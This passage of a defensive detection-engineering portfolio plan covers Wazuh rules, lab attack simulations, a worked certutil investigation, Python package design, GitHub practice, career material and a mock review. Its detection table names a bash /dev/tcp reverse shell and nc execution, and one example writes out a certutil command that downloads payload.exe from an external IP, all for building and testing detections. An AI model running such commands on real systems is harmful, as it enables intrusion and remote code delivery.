| 100216 | Reverse shell pattern | T1059.004 | Linux: bash -i >& /dev/tcp |
| 100217 | Package manager abuse | T1072 | apt/yum installing from odd source |
| 100218 | Auditd: execve of nc/ncat | T1095 | Linux auditd execve |
| 100219 | Windows account lockout burst | T1110 | Correlate 4740 events |
| 100220 | Multiple 4625 then 4624 (Win brute) | T1110 | Correlate Windows logon failures then success |
| 100221 | Defender disabled / tamper | T1562.001 | Windows: Defender config change events |
| 100222 | Firewall rule added | T1562.004 | Windows: netsh advfirewall add |
| 100223 | RDP logon from new geo | T1021.001 | 4624 LogonType 10 from unusual IP |
| 100224 | File integrity change in /etc | T1565 | Wazuh FIM on /etc |
| 100225 | Wazuh agent stopped/removed | T1562 | Manager: agent disconnect events |
| 100226 | Mass file modification (ransomware-like) | T1486 | FIM: many changes in short window |

## Attack simulations (safe, reversible, lab only)

Each simulation exists to generate the telemetry a rule needs. All run on the isolated host-only
network against lab VMs, using well-documented, reversible commands (Atomic Red Team style). No
real malware. Snapshot the VM before, restore after.

Priority set for months one and two: encoded PowerShell, certutil download, whoami/discovery
chain, LOLBIN execution (mshta/regsvr32), SSH brute force with hydra against a lab VM, a Linux
reverse shell one-liner, and a Windows brute-force then success.

## Expected logs and investigation steps (worked example)

**Scenario:** certutil download (bf-0002 / Wazuh 100202), T1105.

- **What the attacker does:** `certutil.exe -urlcache -split -f http://45.77.12.9/payload.exe a.exe`
- **Attacker sees:** the file downloaded to disk.
- **Telemetry (Sysmon EventID 1):** Image ends `\certutil.exe`, CommandLine contains `urlcache`
  and an `http` URL, ParentImage is likely `cmd.exe` or `powershell.exe`.
- **Wazuh alert:** rule 100202, level 12, description "Certutil used to download a remote file",
  MITRE T1105, with the source IP available for pivoting.
- **Investigation steps:**
  1. Is certutil expected on this host for this user? On a workstation, almost never for downloads.
  2. Extract the URL and IP; run reputation lookups (public IP, not private).
  3. Check the parent process and what ran after (did the downloaded file execute?).
  4. Look for the written file on disk and hash it; pivot the hash across other hosts.
  5. Decision: if the destination is untrusted and a file executed, contain the host and escalate.
- **What you would say in an interview:** "certutil is a signed Microsoft binary, a LOLBIN, so it
  blends in. I do not detect the tool, I detect the behavior: the download flags plus an external
  URL. That keeps false positives low because legitimate certificate use does not use urlcache
  against an external http host."


---

# 09. Python Software Design

The package is small on purpose. You should be able to read every file in an afternoon and explain
any of them in an interview. This section is the map.

## Package architecture

```
src/blueforge/
  schema.py            The Event model. The contract every other module depends on.
  config.py            Config dataclass loaded from environment variables.
  logging_config.py    One function to set up consistent logging.
  cli.py               click CLI. The glue that runs the pipeline.
  __main__.py          Enables `python -m blueforge`.
  collectors/          Acquire raw logs.
    base.py            Collector ABC with one method: collect() -> Iterator[dict].
    sample.py          SampleCollector reads JSON Lines.
  normalizer/
    normalize.py       _map_* functions: one per raw format -> Event.
  detections/
    engine.py          Detection, DetectionEngine, load_rules. The documented mini-Sigma.
  enrichment/
    ioc.py             extract_iocs(): regex IOC extraction, no network.
    threatintel.py     Optional reputation lookups; degrade to "unknown" without a key.
  reporting/
    incident_report.py build_report(): matches -> Markdown via jinja2.
  utils/
    io.py              read_jsonl, write_text.
```

## Key classes and responsibilities

**`schema.Event` (pydantic BaseModel).** The single normalized event. Only timestamp, source, and
category are required; everything else is optional so partial logs still validate. `get(field)`
lets the detection engine read either a typed attribute or a raw field by name. This one class is
why detections do not care about log formats.

**`collectors.base.Collector` (ABC).** Defines the one method every collector implements:
`collect()`. Using an abstract base class documents the interface and makes new sources drop-in.

**`detections.engine.Detection` (dataclass).** A loaded rule: id, title, level, MITRE list, log
source category, matchers, condition. Built from a YAML dict via `from_dict`.

**`detections.engine.DetectionEngine`.** Holds the loaded rules and exposes `evaluate(event) ->
list[Match]`. The matching logic is deliberately simple and fully documented: for each rule, check
the log-source category, evaluate each `field|operator: values` matcher (equals/contains/starts/
ends, case-insensitive), then combine with `any` or `all`.

**`reporting.incident_report`.** A jinja2 template plus `build_report(matches)`. Format lives in the
template, logic in the function. The `extract` filter pulls IOCs into the report automatically.

## Interfaces and data flow

The whole system is three interfaces:
1. `Collector.collect() -> Iterator[dict]` (raw records).
2. `normalize(dict) -> Event` (the contract boundary).
3. `DetectionEngine.evaluate(Event) -> list[Match]` (findings).

Everything downstream (enrichment, reporting, hunting) consumes `Event` and `Match`. Because the
boundaries are typed, each stage is unit-testable in isolation, which is exactly what the test
suite does.

## Testing approach

- **Unit tests per module**, using the small synthetic logs in `examples/` as fixtures.
- The normalizer and the engine get the most tests because they are the contract and the core.
- Tests assert behavior a reviewer cares about: benign events do not fire rules, casing does not
  evade detection, every rule is MITRE-mapped, private IPs are not treated as public IOCs.
- Target: keep the suite fast (under a second) so it runs on every commit via pre-commit and CI.

## Coding standards

- Type hints everywhere; `from __future__ import annotations` for clean modern syntax.
- ruff for lint + format, mypy for types. Both run in CI and pre-commit.
- Docstrings explain *why*, not just *what*, because this codebase is also a teaching artifact.
- Small functions, single responsibility, no cleverness that you cannot explain out loud.
- Secrets only from environment variables. No network calls in the core path. Fail gracefully.

## What was deliberately left out (and why)

No database (files + git suffice at this scale). No web UI (the CLI plus Markdown reports are
enough and stay explainable). No async (log volumes here do not need it). No plugin framework
(YAGNI). Each omission is a defensible design decision, which is more impressive than an
over-engineered stack you cannot justify.


---

# 10. GitHub Management

The repository is run like a real project so the *process* is part of the portfolio. A reviewer
looks at issues, milestones, commit messages, and CI to judge whether you work like an engineer.

## Milestones (one per roadmap phase)

`Phase 0: Foundation`, `Phase 1: MVP`, `Phase 2: Detection Engine`, `Phase 3: Threat Hunting`,
`Phase 4: Automation`, `Phase 5: AI Assistant`, `Phase 6: v1.0`. Each issue is assigned to a
milestone so progress is visible on the milestones page.

## Labels (defined in `.github/labels.yml`)

Three axes: **type** (detection, feature, bug, docs, test), **area** (collectors, normalizer,
detections, enrichment, reporting, hunting), and **phase** (0 to 4). Plus `priority: high` and
`good first task`. Labeling every issue makes the board readable and shows intent.

## Issue templates (in `.github/ISSUE_TEMPLATE/`)

- **bug_report** - what happened, repro, environment.
- **feature_request** - problem, proposed solution, roadmap phase.
- **detection_request** - MITRE technique, attacker behavior, log source, expected false positives.
  This one is the tell that a detection engineer runs this repo.

## Pull request template

Every PR states its type, links an issue, names the MITRE technique for detections, and carries a
checklist (lint passes, tests pass, detection has a test and FP notes, no secrets). Even solo, you
open PRs from feature branches so the history reads professionally and CI gates every change.

## Commit conventions (Conventional Commits)

`type(scope): summary`, imperative mood, under ~72 chars. Types: feat, fix, docs, test, refactor,
chore, and `detection` for new/updated rules. Examples:

```
detection(sigma): add certutil download rule (T1105)
feat(normalizer): map Windows 4625 to authentication events
fix(engine): make command-line matching case-insensitive
docs(architecture): add data-flow diagram
test(enrichment): cover private vs public IP separation
```

Why it matters: consistent history lets you (and a reviewer) scan what changed, and it enables
automatic changelogs later.

## Branching and release strategy

- `main` is always green and demoable. Work happens on short-lived `feat/`, `fix/`, or
  `detection/` branches, merged via PR after CI passes.
- **Semantic Versioning.** Tag `v0.1.0` at the end of Phase 0/1, bump minor per phase, tag `v1.0.0`
  at Phase 6. Each release gets notes generated from the changelog.
- The `CHANGELOG.md` follows Keep a Changelog and is updated in the same PR as the change.

## CI as a quality gate

`.github/workflows/ci.yml` runs on every push and PR: ruff, mypy, pytest across Python 3.10 to
3.12, and a detection-validation job that parses every Sigma rule. A red check blocks merge. The
green badge in the README is honest evidence the project builds.


---

# 11. Career Application Material

This section turns the work into interviews and offers. Use it as raw material; adapt to each job.
Never claim a phase you have not actually shipped. Honesty is the whole point of a portfolio.

## Resume bullets by phase

Use strong verbs and concrete numbers. Only add a bullet once the phase is genuinely done.

**Phase 0 (Foundation)**
- Built and documented a self-hosted detection lab (Wazuh SIEM, Sysmon, Windows/Linux VMs) on an
  isolated network, with CI (GitHub Actions) enforcing lint, type-checks, and tests.

**Phase 1 (MVP)**
- Designed a normalized event schema and a tested Python detection pipeline that ingests raw logs,
  normalizes them, and fires MITRE-mapped detections, producing automated Markdown incident reports.

**Phase 2 (Detection Engine)**
- Authored 20+ detections (Sigma + Wazuh) mapped to MITRE ATT&CK, each with unit tests, documented
  false positives, and investigation steps; built an ATT&CK coverage report.

**Phase 3 (Threat Hunting)**
- Ran safe, reversible attack simulations to validate detections and wrote hypothesis-driven hunts
  and event timelines for multi-stage scenarios.

**Phase 4 (Automation)**
- Automated alert triage end to end (IOC extraction, threat-intel enrichment, report generation)
  and built KQL parity detections in Microsoft Sentinel, aligned with SC-200.

**Phase 5 / 6**
- Prototyped a local-LLM alert-explanation assistant (no data leaving the host) and shipped a
  documented v1.0 with ATT&CK coverage visualization.

## LinkedIn announcement examples

Keep them plain, specific, and free of hype. No em dashes, no buzzword soup.

**Kickoff post:**
"I'm building BlueForge, a detection engineering and SOC automation platform, to learn the blue-team
craft by doing. Week one: Wazuh + Sysmon lab running on an isolated network, first Sigma rules
firing, and a CI pipeline keeping it honest. I'll share what I learn as I go."

**Milestone post (Phase 2):**
"BlueForge update: 20 detections now mapped to MITRE ATT&CK, each with tests and documented false
positives. The interesting part was tuning out benign PowerShell without missing the malicious
encoded-command pattern. Repo and write-ups in the comments."

**Reflection post:**
"Lesson from BlueForge this week: a LOLBIN like certutil is invisible if you detect the tool. You
have to detect the behavior (download flags plus an external URL). Detection engineering is mostly
thinking like an attacker, then writing the smallest rule that still catches them."

## The 90-second project explanation (interview opener)

"BlueForge is a detection engineering platform I built to practice the full SOC loop. Logs from a
Wazuh and Sysmon lab flow through a Python pipeline: collectors grab the raw events, a normalizer
converts every format into one common schema, and a small Sigma-style engine runs my detections,
each mapped to MITRE ATT&CK. Matches get enriched with IOC extraction and threat-intel lookups, and
the tool generates an incident report automatically. I built it dual-stack, so the same detections
also exist as KQL for Microsoft Sentinel, which lines up with my SC-200 work. I kept it deliberately
small so I can explain every component, and everything is tested with green CI."

## Technical questions recruiters and interviewers may ask

- "Walk me through what happens from a log arriving to an alert." (Answer: the data-flow diagram.)
- "Why normalize logs? What is a common schema?" (Format independence; ECS/ASIM analogy.)
- "Pick one detection and explain it, including its false positives."
- "How do you know your detection coverage is good?" (ATT&CK mapping + coverage script; and its
  limits: coverage is breadth, not depth.)
- "How would you tune a noisy rule without going blind?" (Baseline, add context, narrow the matcher,
  measure FP rate, never just delete the alert.)
- "What is a LOLBIN and why do they matter?" (certutil/mshta/regsvr32 example.)
- "Difference between a detection and a hunt?" (Known-bad rule vs hypothesis-driven search.)
- "How do you handle secrets and untrusted data safely?" (env vars, no secrets in git, graceful
  degradation, isolated lab network.)
- "What would you change at enterprise scale?" (Storage to a real datastore, streaming ingestion,
  case management integration, alert deduplication.)

## How to explain the architecture

Draw the pipeline: sources -> collectors -> normalizer -> detection engine -> enrichment ->
reporting/hunting. Emphasize the two design decisions that carry the most weight: the common schema
(so detections are format-independent) and the documented mini-engine (so nothing is a black box).
Then name one trade-off you made on purpose, for example choosing files over a database, and why.

## How to explain challenges (the part that lands offers)

Have two or three real stories ready, structured as situation, problem, what you tried, and what you
learned. Good candidates from this project: making command-line matching case-insensitive after a
rule missed an upper-cased payload; separating public from private IPs so enrichment did not waste
lookups on RFC1918 addresses; deciding not to use the full pySigma library because you could not yet
explain it. Interviewers trust "here is what broke and how I reasoned about it" far more than a
flawless demo.


---

# 12. Senior Engineer Review

A blunt review of BlueForge from four perspectives, as requested. Read this as the bar to clear, not
as flattery. The whole point is to fix the weaknesses before a real reviewer finds them.

## As a Microsoft Security hiring manager

**Strengths.** The dual-stack decision is smart for this market: Wazuh proves you can self-host and
reason about a SIEM, and the Sentinel/KQL parity plus SC-200 alignment maps directly to the job.
Clean repo, CI, and tests signal you can work on a team. The common-schema design shows you
understand normalization, which is exactly the ASIM concept in Sentinel.

**Weaknesses.** Right now the Microsoft side is the thinnest part (a couple of KQL files). For a
Microsoft role that is the part I care about most. The AI phase risks looking like resume-driven
development if it appears before the fundamentals are deep.

**To stand out:** get real telemetry into a Sentinel trial, show one analytics rule with a working
automation playbook (Logic App), and screenshot an incident in the Defender portal. Depth on the
Microsoft stack beats breadth everywhere else for this specific employer.

## As a CrowdStrike detection engineer

**Strengths.** You detect behavior, not tools (the certutil and LOLBIN framing is correct). Rules are
versioned, tested, and MITRE-mapped, with documented false positives. That is genuinely how a
detection content team works. The "smallest rule that still catches them" instinct is the right one.

**Weaknesses.** The detection set is entry-level so far: single-event, command-line string matches.
Real adversaries evade those. There is little behavioral or correlation logic, no consideration of
detection evasion beyond casing, and no data volume to prove the rules survive contact with noise.

**To stand out:** add multi-event correlation and parent-child logic, write one rule that survives a
deliberate evasion attempt you document, and measure false-positive rate against a realistic noisy
dataset. Show a rule's whole lifecycle: hypothesis, telemetry, rule, test, evasion, tuning.

## As a SOC manager

**Strengths.** The triage and reporting automation solves a real analyst pain. Playbooks, incident
reports, and investigation steps show you think about the human workflow, not just the tech. The
isolated-lab and secrets discipline says you can be trusted with access.

**Weaknesses.** No alerting/notification path, no case tracking, and no metrics on analyst time
saved. As a manager I want to know it reduces mean-time-to-triage, and that is not measured yet.

**To stand out:** add one metric (for example, time from log to report) and a simple notification
(a webhook to a chat channel). Frame the value in SOC terms: fewer clicks, faster triage, consistent
reports.

## As a general senior engineer

**Strengths.** Small, typed, tested, documented, and honest about its own scope. The deliberate
omissions (no DB, no web UI, no async) are defensible and show maturity. The docs are unusually good
for a portfolio project.

**Weaknesses.** The custom engine is a subset of Sigma and could drift from the real spec; the
threat-intel layer is stubbed; there is no end-to-end integration test that runs the whole CLI.

**To improve:** add one integration test that exercises `blueforge detect` on sample logs and asserts
the report, and be explicit in the README about what the engine does and does not support versus
full Sigma.

## What makes this stand out vs look like a student project

**Stands out:** real detections mapped to ATT&CK with tests and tuning; a normalized schema; CI and
clean git history; documentation that explains *why*; dual-stack parity; honest scoping decisions;
lab evidence (screenshots, simulations) proving it actually runs.

**Looks like a student project (avoid these):** a pile of scripts with no tests or structure;
detections copied without understanding or MITRE mapping; a README that is only an install list; no
evidence it ran (no screenshots, no sample outputs); over-engineering (microservices, a database, a
web UI) with nothing behind it; and inflated claims that do not match the commit history. The
single biggest tell is the inability to explain a component you wrote. Every line here should pass
the "explain it out loud" test, which is exactly what this project is optimized for.

## The one-sentence verdict

If Phases 0 to 4 are actually completed, tested, and documented as described, BlueForge is a
top-decile junior portfolio project for the Canadian SOC/detection market, provided you deepen the
Microsoft side and add correlation and evasion-aware detections before calling it done.


---

